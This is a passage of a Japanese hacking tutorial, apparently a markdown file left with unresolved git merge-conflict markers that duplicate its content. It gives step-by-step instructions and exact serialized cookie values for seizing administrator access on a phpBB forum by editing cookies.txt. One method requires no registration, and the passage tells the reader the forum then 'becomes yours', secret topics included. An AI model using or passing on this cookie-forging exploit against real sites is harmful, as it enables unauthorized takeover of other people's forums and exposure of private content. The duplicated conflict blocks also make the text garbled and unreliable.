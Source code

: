 　といった記述があるはずです。○の部分は自分のUID（User ID）になっていま
す。これを次のように変更します。

<<<<<<< HEAD
-----　（強制改行してますが、繋げてください）
www.ターゲット.com phpbbmysql a%3A2%3A%7Bs%3A11%3A%22autologinid
%22%3Bb%3A1%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D
-----
=======
\-\-\-\-\-　（強制改行してますが、繋げてください）
www.ターゲット.com phpbbmysql a%3A2%3A%7Bs%3A11%3A%22autologinid
%22%3Bb%3A1%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

6：ブラウザを立ち上げてもう一度ターゲットのWebサイトにアクセスします。す
ると、自動で管理者でログインできるはずです。もし、うまくいかない場合は、
管理者のUIDが2でない可能性があります。そのときは、「%222%」を「%22○%」に
変更します（○は管理者のUID）。これでもうそのフォーラムはあなたのものです。
自分のユーザーIDを管理者設定するなり、極秘トピックを読むことだって可能で
す。

●方法2（2005年3月15日）
　上記で解説した方法1はターゲットフォーラムにユーザー登録する必要がありま
す。これは少々アタッカーとしては抵抗があるかもしれません。そんな後、15日
に登録せずに管理者権限を奪取できる方法が公開されました。

1：普通にターゲットサイトをアクセスします。

2：cookies.txt（またはブラウザのクッキーが保存されているファイル）を開き、
次のコードを確認します。

<<<<<<< HEAD
-----
www.target.com FALSE / FALSE 1234567890 phpbb2mysql_data a%3A0%3A%7B%7D
-----

3：「a%~~」部分を次のように置き換えます。編集後、上書き保存します。

-----　（強制改行してますが、繋げてください）
phpbb2mysql_data a%3A2%3A%7Bs%3A11%3A%22autologinid
%22%3Bb%3A1%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D
-----
=======
\-\-\-\-\-
www.target.com FALSE / FALSE 1234567890 phpbb2mysql_data a%3A0%3A%7B%7D
\-\-\-\-\-

3：「a%\~\~」部分を次のように置き換えます。編集後、上書き保存します。

\-\-\-\-\-　（強制改行してますが、繋げてください）
phpbb2mysql_data a%3A2%3A%7Bs%3A11%3A%22autologinid
%22%3Bb%3A1%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
